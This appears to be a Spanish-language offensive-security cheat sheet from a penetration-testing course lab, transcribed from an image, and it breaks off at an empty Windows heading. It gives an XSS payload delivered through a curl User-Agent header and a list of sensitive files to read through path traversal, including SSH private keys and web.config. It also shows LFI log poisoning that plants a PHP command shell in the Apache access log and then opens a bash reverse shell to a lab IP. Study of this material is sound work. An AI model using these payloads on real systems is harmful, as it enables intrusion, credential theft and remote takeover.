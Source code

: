 ```js
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Se envía el payload, en este caso se usa un proxy
```sh
curl -i http://offsecwp --user-agent 
"<script>eval(String.fromCharCode(118,97,114,32,97,106,97 ... 115,41,59))</script>" --proxy 127.0.0.1:8080
```

## Path traversal to priv esc (Linux)

home/{user}/.ssh/id_rsa
/var/log/apache2/access.log

## Path traversal to priv esc (Windows)


Si se utiliza IIS, se deberían de revisar los siguientes archivos

C:\inetpub\logs\LogFiles\W3SVC1\.
C:\inetpub\wwwroot\web.config

## LFI

### Linux

Si hay un path traversal, se pueden revisar los logs de apache:
```sh
 curl 
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php 
HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 
Firefox/91.0"
```

Podemos enviar la siguiente línea como user agent y este será registrado en el access.log 
```sh
<?php echo system($_GET['cmd']); ?>
```

Volvemos a consultar el access.log

```sh
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

### Windows
